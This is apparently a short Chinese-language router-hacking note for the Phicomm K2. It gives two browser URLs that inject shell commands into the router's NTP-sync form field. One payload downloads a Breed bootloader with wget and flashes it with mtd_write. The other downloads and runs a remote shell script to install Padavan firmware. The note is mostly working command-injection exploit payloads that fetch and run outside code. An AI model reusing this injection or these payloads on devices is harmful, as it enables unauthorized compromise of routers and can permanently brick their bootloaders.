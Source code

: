 # 斐讯K2

一键刷华数
①如果想只刷入Breed Web，就可以在浏览器中打开(一个符号都不能少)：

````
　　http://192.168.2.1/goform/gra_NTPSyncWithLocal?text_year="2016|`if wget -O /tmp/breed.bin http://breed.hackpascal.net/breed-mt7620-phicomm-psg1208.bin;then mtd_write write /tmp/breed.bin Bootloader;echo breed ok! >/etc_ro/web/index.asp;fi`"

````

②如果想一并刷入Breed Web和华硕Padavan固件，直接在浏览器中打开以下链接即可：

````
　　http://192.168.2.1/goform/gra_NTPSyncWithLocal?text_year="2016|`if wget -O /tmp/asus.sh http://code.taobao.org/svn/asus_bin/asus.sh;then sh /tmp/asus.sh;fi`"
````

[chuchu](http://www.right.com.cn/forum/thread-187521-1-1.html)
